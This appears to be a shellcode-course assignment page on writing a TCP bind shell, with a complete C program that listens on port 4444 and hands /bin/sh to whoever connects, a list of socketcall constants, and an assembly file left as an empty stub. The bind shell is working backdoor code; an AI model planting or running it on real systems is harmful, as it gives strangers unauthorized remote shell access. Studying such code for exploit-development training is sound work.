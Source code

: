 ```yaml
---
title:  Assignment 1
description: Create a Shell Bind TCP shellcode
order: 1
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

Before we dive into shellcode, we'll first write a simple program in c to model the functionality.

```c
/* bind_tcp_model.c
 *  - Bind to a socket, listen for a connection, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY

int main() {
	int port = 4444;
	int sockfd, connfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Bind to socket

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = INADDR_ANY;

	bind(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Listen on socket

	listen(sockfd, 0);

	// Accept a connection

	connfd = accept(sockfd, 0, 0);

	// Route i/o through connection

	dup2(connfd, 0);
	dup2(connfd, 1);
	dup2(connfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}

```

Since the first step is creating a socket, let's look at the syscall *socketcall*.
```c
int socketcall(int call, unsigned long *args);
```
The syscall *socketcall* seems to accept a *call* parameter, so we'll take a look at those too.
```bash
> grep SYS_ /usr/include/linux/net.h

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
#define SYS_GETSOCKNAME	6		/* sys_getsockname(2)		*/
#define SYS_GETPEERNAME	7		/* sys_getpeername(2)		*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)		*/
#define SYS_SEND	9		/* sys_send(2)			*/
#define SYS_RECV	10		/* sys_recv(2)			*/
#define SYS_SENDTO	11		/* sys_sendto(2)		*/
#define SYS_RECVFROM	12		/* sys_recvfrom(2)		*/
#define SYS_SHUTDOWN	13		/* sys_shutdown(2)		*/
#define SYS_SETSOCKOPT	14		/* sys_setsockopt(2)		*/
#define SYS_GETSOCKOPT	15		/* sys_getsockopt(2)		*/
#define SYS_SENDMSG	16		/* sys_sendmsg(2)		*/
#define SYS_RECVMSG	17		/* sys_recvmsg(2)		*/
#define SYS_ACCEPT4	18		/* sys_accept4(2)		*/
#define SYS_RECVMMSG	19		/* sys_recvmmsg(2)		*/
#define SYS_SENDMMSG	20		/* sys_sendmmsg(2)		*/
```
To create a socket we'll need SYS_SOCKET, 1.  Now we can start some assembly.

```nasm
; bind_shell_tcp.nasm
; - Bind to a socket, listen for a connection, provide shell.

global _start

section .data
_start:


```

<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
